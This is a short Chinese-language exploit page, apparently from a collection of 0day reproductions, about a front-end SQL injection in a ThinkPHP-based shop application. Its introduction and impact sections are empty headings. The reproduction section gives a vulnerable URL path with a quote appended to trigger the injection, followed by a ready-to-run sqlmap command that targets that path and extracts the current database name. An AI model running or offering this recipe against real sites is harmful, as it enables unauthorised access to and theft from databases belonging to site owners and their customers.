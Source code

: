 # Thinkphp Shop 前台 SQL 注入

> 原文：[http://book.iwonder.run/0day/Thinkphp shop/1.html](http://book.iwonder.run/0day/Thinkphp shop/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

[http://www.0-sec.org/mobile/index/index2/id/1](http://www.0-sec.org/mobile/index/index2/id/1)'

sqlmap -u "[http://www.0-sec.org/mobile/index/index2/id/1*](http://www.0-sec.org/mobile/index/index2/id/1*)" --random-agent --batch --dbms "mysql" --current-db

